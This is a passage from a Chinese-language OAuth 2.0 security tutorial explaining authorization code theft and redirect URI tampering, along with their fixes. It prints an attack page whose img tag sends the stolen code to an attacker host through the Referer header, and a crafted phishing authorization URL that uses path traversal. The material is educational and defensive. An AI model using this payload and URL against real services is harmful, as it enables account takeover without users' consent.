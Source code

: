 　　所以，在开放平台环境下，我们就要更加重视与防范数据的越权问题。

　　以上，CSRF 攻击、XSS 攻击、水平越权这三种攻击类型，它们都属于 OAuth 2.0 面临的互联网非常常见的通用攻击类型。而对于其他的互联网攻击类型，如果你想深入了解的话，可以看一下这篇安全案例回顾的文章。

　　接下来，我们再看两种 OAuth 2.0 专有的安全攻击，分别是授权码失窃、重定向 URI 被篡改。

授权码失窃

　　我们举个例子，先来学习授权码失窃这个场景。

　　如果第三方软件 A 有合法的 app_id 和 app_secret，那么当它去请求访问令牌的时候，也是合法的。这个时候没有任何问题，让我们继续。

　　如果有一个用户 G 对第三方软件 B，比如极客时间，进行授权并产生了一个授权码 codeB，但并没有对攻击者软件 A 授权。此时，软件 A 是不能访问用户 G 的所有数据的。但这时，如果软件 A 获取了这个 codeB，是不是就能够在没有获得用户 G 授权的情况下访问用户 G 的数据了？整个过程如下图所示。

　　

　　图5 授权码失窃攻击过程

　　这时问题的根源就在于两点：

　　授权服务在进行授权码校验的时候，没有校验 app_id_B；

　　软件 B（也就是极客时间）使用过一次 codeB 的值之后，授权服务没有删除这个 codeB；

　　看到这里，通过校验 app_id_B，并删除掉使用过一次的授权码及其对应的访问令牌，就可以从根本上来杜绝授权码失窃带来的危害了。

　　说到这里，你不禁要问了，授权码到底是怎么失窃的呢？接下来，我要介绍的就是授权码失窃的可能的方法之一，这也是 OAuth 2.0 中因重定向 URI 校验方法不当而遭受到的一种危害。这种安全攻击类型，就是重定向 URI 被篡改。

重定向 URI 被篡改

　　有的时候，授权服务提供方并没有对第三方软件的回调 URI 做完整性要求和完整性校验。比如，第三软件 B 极客时间的详细回调 URI 是https://time.geekbang.org/callback，那么在完整性校验缺失的情况下，只要以https://time.geekbang.org开始的回调 URI 地址，都会被认为是合法的。

　　此时，如果黑客在https://time.geekbang.org/page/下，创建了一个页面 hacker.html。这个页面的内容可以很简单，其目的就是让请求能够抵达攻击者的服务。

<html>
	<img src ="https://clientA.com/catch">
</html>


　　好了，我们继续看下接下来的攻击流程：

　　

　　图6 重定向URI被篡改的攻击过程

　　首先，黑客将构造的攻击页面放到对应的 hacker.html 上，也就是https://time.geekbang.org/page/hacker.html上 ，同时构造出了一个新的重定向 URI，即https://time.geekbang.org/page/welcome/back.html../hacker.html。

　　然后，黑客利用一些钓鱼手段诱导用户，去点击下面的这个地址：

https://oauth-server.com/auth?respons_type=code&client_id=CLIENTID&redirect_uri=https://time.geekbang.org/page/welcome/back.html../hacker.html


　　这样当授权服务做出响应进行重定向请求的时候，授权码 code 就返回到了 hacker.html 这个页面上。

　　最后，黑客在https://clientA.com/catch页面上，解析 Referrer 头部就会得到用户的授权码，继而就可以像授权码失窃的场景中那样去换取访问令牌了。

　　看到这里我们就知道了，如果授权服务要求的回调 URI 是https://time.geekbang.org/callback，并做了回调 URI 的完整性校验，那么被篡改之后的回调地址https://time.geekbang.org/page/welcome/back.html../hacker.html就不会被授权服务去发起重定向请求。
